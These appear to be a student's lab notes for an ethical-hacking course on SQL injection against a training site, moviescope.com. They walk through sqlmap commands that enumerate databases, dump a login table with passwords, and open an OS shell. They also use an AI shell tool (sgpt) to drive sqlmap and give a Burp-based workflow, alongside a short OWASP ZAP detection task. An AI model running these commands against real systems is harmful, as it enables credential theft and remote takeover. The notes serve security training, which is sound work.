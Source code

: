  2025-08-06 21:46

Status:

Tags:

# SQL injection
Structured Query Language (SQL) is a textual language used by a database server. SQL commands used to perform operations on the database include ``INSERT, SELECT, UPDATE, and DELETE``. These commands are used to manipulate data in the database server.

SQL injection is a technique used to take advantage of un-sanitized input vulnerabilities to pass SQL commands through a web application for execution by a backend database
-  SQL injection is a basic attack used to either gain unauthorized access to a database or retrieve information directly from the database 
- It is a flaw in web applications and not a database or web server issue 
- [ ] do theory 
# Lab 1: Perform SQL Injection Attacks
## Task 1: Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap

-  open parrot 
1. visit ``http://www.moviescope.com`` 
	- login as ``sam:test``
2. click view profile 
	- inspect the page -> console 
	- type ``document.cookie  `` 
	- copy cookie 
3. run SQLmap
	- ``sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="A[cookie value that you copied in Step#7]" --dbs ``
	- type y for **Do you want to skip test payloads**
4. you need to choose a database and use sqlmap to retrieve the tables in the database
	- ``sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" -D moviescope --tables``
5.  you need to retrieve the table content of the column **User_Login**.
	- ``sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" -D moviescope -T User_Login --dump ``
	- this will give you users list and their passwords 
6. to get shell 
		- `` sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" --os-shell ``  type y
	- to get host info 
		- ``hostname ``
	- to view a list of tasks that are currently running on the target system.
		- ``TASKLIST ``
	- to view what else command you perform 
		- ``help ``

# Lab 2: Detect SQL Injection Vulnerabilities using Various SQL Injection Detection Tools

## Task 1: Detect SQL Injection Vulnerabilities using OWASP ZAP

- open windows server 2019 and search zap 
1. start **OWASP ZA**
2. select **Automated Scan**
3. enter http://www.moviescope.com
4. under alert see SQL injection 
5. and MS SQL 
	- done  


# Lab 3: Perform SQL Injection using AI
1. `` **sgpt --chat sql --shell "Use sqlmap on target url http://www.moviescope.com/viewprofile.aspx?id=1 with cookie value '[cookie value which you have copied in Step#3]' and enumerate the DBMS databases"** ``
2. ``sgpt --chat sql --shell "Use sqlmap on target url http://www.moviescope.com/viewprofile.aspx?id=1 with cookie value '[cookie value which you have copied in Step#3]' and enumerate the tables pertaining to moviescope database"``
3. ``sgpt --chat sql --shell "Use sqlmap on target url http://www.moviescope.com/viewprofile.aspx?id=1 with cookie value '[cookie value which you have copied in Step#3]' and retrieve User_Login table contents from moviescope database"```
## Exploit the web application (page_id)
1. nmap -sV --script=http-enum [target domain or IP address]
2. Find any input parameter on website and capture the request in burp and then use it to perform sql injection using sqlmap. 
3. Now open the burp and check the input parameters and intercept on then type some as`` “1 OR ANY TEXT”`` you get some value on burp copy that and create the txt file.(1 OR 1=1 #)
4.  ``sqlmap -r <txt file from burpsuite> --dbs`` 
5.    `` sqlmap -r <txt file from burpsuite> -D <database name> --tables``
6. ``sqlmap -r <txt file from burpsuite> -D <database name> -T <table name> --columns``
7. ``sqlmap -r <txt file from burpsuite> -D <database name> -T <table name> --dump-all ``
8. ``then login and do the url parameter change page_id=1 to page_id=84 ``

- [ ]  make notes for using AI sql  
      
- [ ]  perform sql injection 
- [ ] 16
- [ ] 13
      \


## sql injection without cookie 
manualy search for url that contains ``?and =``

### References
